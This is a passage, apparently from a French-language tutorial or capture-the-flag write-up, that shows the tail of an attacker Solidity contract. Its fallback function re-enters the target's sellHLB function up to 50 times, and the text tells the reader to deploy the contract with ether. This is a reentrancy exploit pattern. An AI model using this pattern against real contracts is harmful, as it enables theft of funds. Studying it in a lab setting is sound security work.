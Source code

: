 ```solidity

    function fc() external view returns (uint) {
        return fallback_called;
    }

    fallback () external payable {
        if(fallback_called <= 50) {
            fallback_called += 1;
            target.sellHLB(1);
        }
    }
}
```

Copier ces lignes à la fin du fichier comportant le contrat, puis le déployer sans oublier de lui donner de l'ether pour acheter des HLB.

![deploy](../images/contrat2_deploy.png)
